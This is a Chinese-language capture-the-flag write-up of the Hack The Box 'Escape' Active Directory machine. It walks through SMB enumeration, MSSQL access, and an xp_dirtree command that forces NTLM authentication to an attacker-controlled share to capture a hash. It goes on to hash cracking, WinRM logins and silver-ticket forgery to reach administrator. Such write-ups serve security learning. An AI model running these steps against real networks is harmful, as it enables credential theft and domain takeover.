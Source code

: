 # Escape

Escape 是一台中等难度的 Windows Active Directory 计算机，它以 SMB 共享开始，经过来宾身份验证的用户可以下载敏感的 PDF 文件。在PDF文件中，临时凭据可用于访问计算机上运行的MSSQL服务。攻击者能够强制 MSSQL 服务向他的计算机进行身份验证并捕获哈希值。事实证明，该服务在用户帐户下运行，并且哈希值是可破解的。拥有一组有效的凭据，攻击者能够使用 WinRM 在计算机上执行命令。枚举计算机时，日志文件会显示用户“ryan.cooper”的凭据。进一步枚举计算机，显示存在证书颁发机构，并且一个证书模板容易受到 ESC1 攻击，这意味着可清晰地使用此模板的用户可以为域中的任何其他用户（包括域管理员）请求证书。因此，通过利用 ESC1 漏洞，攻击者能够获取管理员帐户的有效证书，然后使用它来获取管理员用户的哈希值。

---

## 外部信息收集

### 端口扫描

循例nmap

```shell
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-28 15:19:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

### SMB枚举

smbmap 看一下有个share可读

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/e61d14c5-d16e-8dd8-fbbc-5a9af8ccbc70.png)

有一个pdf

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/9b740c63-71a4-49b4-077a-4bd7b9d8ee19.png)

下下来

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/17ab703d-d478-92db-faf5-6e92b155439e.png)

里面给了一组凭据，它应该是用于mssql的

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/f90ed0eb-d653-76aa-e5d6-79219ee4efc8.png)

这组凭据我们能够使用mssqlclient

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/c507a6a6-fdd5-ad93-67e8-45440445f8bb.png)

无权执行xp_cmdshell

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/b4375441-623a-6c09-7c2f-d9d4b25f9eb3.png)

## Foothold

通过对攻击机托管的恶意smb服务发起身份认证来获取hash

	exec master.dbo.xp_dirtree "\\10.10.14.18\hack"

查看responder

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/0c0c6e05-5df4-bd27-52d0-d9ba1a0d765e.png)

hashcat直接爆

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/70f4c382-f357-42d9-903e-70b388dd9cf2.png)

尝试登evil-winrm

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/4acd71f5-2995-573d-6a5b-1c5daa2fca3d.png)

## 横向移动 -> Ryan.Cooper

在这里发现一个log

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/5974c76d-368d-e1fa-b58a-7569abef62f1.png)

在里面可以看到一个明文密码

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/45f6df37-81c0-b605-cf18-1b6c25046049.png)

登winrm成功

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/8d84954e-ff01-3b08-e0a6-fb396f41c5f9.png)

## 权限提升

经典SeMachineAccountPrivilege

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/da2390b4-e79f-1662-a008-dd61789c8777.png)

我使用certipy发现了存在ESC1，ESC1打很多遍了，但是我看wp有更好玩的提权路线

现在我们直接伪造tgs（银票），因为前面我们已经拿到了sql_svc的明文密码了，那个是mssql服务账户

现在我们就可以为administrator伪造银票，常规操作

**注意，我们不要忽略了PAC的存在，我们当前是无法伪造PAC的，因为我们没有krbtgt hash，所以这里能打成功是因为mssql服务不去找KDC验证PAC吧**

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/8b76c69d-d13c-a996-597a-5ab4104b960c.png)

我们还需要设置ntpdate，否则我们将因为来自不受信任的域而登录失败

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/e9f9318e-f3a9-bff1-efa0-7e79b13a7d75.png)

设置KRB5CCNAME，然后登mssqlclient

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/9d76639b-5294-ba0b-ab26-8c3bc85e739c.png)

mssql模拟administrator，通过administrator的权限，我们可以读到root flag

![file](https://blog.apt250.zip/wp-content/uploads/2023/12/3b29905d-ec88-1045-38e8-38d951e0501d.png)
